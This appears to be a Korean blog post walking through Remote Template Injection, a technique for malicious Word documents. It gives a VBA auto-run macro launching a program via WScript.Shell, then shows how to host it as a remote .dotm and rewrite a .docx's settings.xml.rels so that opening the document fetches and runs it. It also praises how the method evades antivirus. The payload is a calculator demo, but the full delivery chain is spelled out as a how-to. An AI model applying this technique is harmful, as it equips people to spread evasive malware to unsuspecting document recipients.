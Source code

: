 # Remote Template Injection

출처: https://nameng.tistory.com/146

친구 블로그를 보다가 재밌고 간단해보여서 바로 해봤다.

 

중국 문서형 악성코드에서 자주쓰이는 공격기법이라한다.

워드안에 있는 템플릿을 이용한 기법으로 악성코드를 안전하게 퍼트릴수있다고 한다.

 



![img](https://blog.kakaocdn.net/dn/YfaMX/btrssBZRh00/wJLGxBkjUydbZ0uICK3SQ0/img.png)



템플릿을 구성하는 부분 중 템플릿설정 매크로 등이 담겨있는 .dotm파일을 이용한다.

우선 사진의 템플릿중 원하는걸 골라 만들어준다.



![img](https://blog.kakaocdn.net/dn/9UDT9/btrskFhINZv/vzc3UCMYgHg97J6oB2DHyk/img.png)



만든 후 새로 빈 워드를 또 만들어 준 후 매크로 기능을 열어서 macros in 을 사진처럼 골라주고 create를 해준다.

 



![img](https://blog.kakaocdn.net/dn/bjWagT/btrsi947prp/ohHlkvKKRB0uT6PKEShD9K/img.png)



```
Sub AutoOpen()
    a
End Sub

Sub Document_Open()
    a
End Sub

Sub a()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run ("calc.exe")
    For i = 0 To 20
         MsgBox "내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈내돈", Buttons:=vbCritical
    Next i
End Sub
```

만들면 왼쪽 프로젝트 창에 thisdocument를 클릭해 소스를 넣어주고 .dotm파일로 저장해준다.

파일 저장이 어디로 됐는지 모르겠으면 해당경로에서 찾아준다.

C:\Users\USER\Documents\Custom Office Templates

 

'''

(내돈내돈내돈내돈) 하는이유



![img](https://blog.kakaocdn.net/dn/bqf3wF/btrr9zCUBso/FSpOoFIE7sE45bXm9LNRv1/img.png)



코스피가 파국이였기때문 ㅎ;

'''

 

만들어준.dotm 파일을 웹서버에 올려 해당링크에 접속하면 누구나 다운로드가 가능하도록 해준다.

그다음 처음 만들어준 docx파일을 .zip으로 확장자를 바꾸고 압축을 풀어준다.

docx이름\word\_rels\settings.xml.rels만 수정하면된다.

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\USER\AppData\Local\Microsoft\Office\16.0\DTS\en-US%7bB9897217-BC5B-4439-8249-2E4D3B35A30B%7d\%7b129B30C0-C51A-4B62-8A9E-8157040A17DB%7dtf45325165_win32.dotx" TargetMode="External"/>
</Relationships>
```

파일을 열면 다음처럼 나오는데 Target부분만 우리가 .dotm파일을 올린 링크로 바꾸면된다.

```
Target=".dotm파일 올린 링크"
```

수정한 부분을 저장해주고 다시 압축을한후 .zip확장자를 .docx로 바꿔주면된다.



![img](https://blog.kakaocdn.net/dn/bimOll/btrslU0KuCS/QI5kidkeLMaZBw0BTu1Un0/img.png)



해당파일을 실행하면 매크로가 꺼져있다는데 실행하기를 누르면 아까만든 스크립트가 실행된다.



![img](https://blog.kakaocdn.net/dn/0yNeN/btrsrQirHcB/LJ7siRwSNDH1klYxbRWKfk/img.png)



실행된 모습

 

이공격기법에 장점으로는 공격하는 코드가 문서내에 포함되어 있지 않기에 백신등에서 탐지하기 어렵고 이 기법은 문서실행마다 .dotm파일을 올려둔 서버에 접근하는것을 이용하기에 공격자 입장에서 그만두고 싶을때 서버의 파일을 삭제함으로써 손절을 잘할수있다.

 

 

 

 

출처-

https://goseungduk.tistory.com/111?category=879438 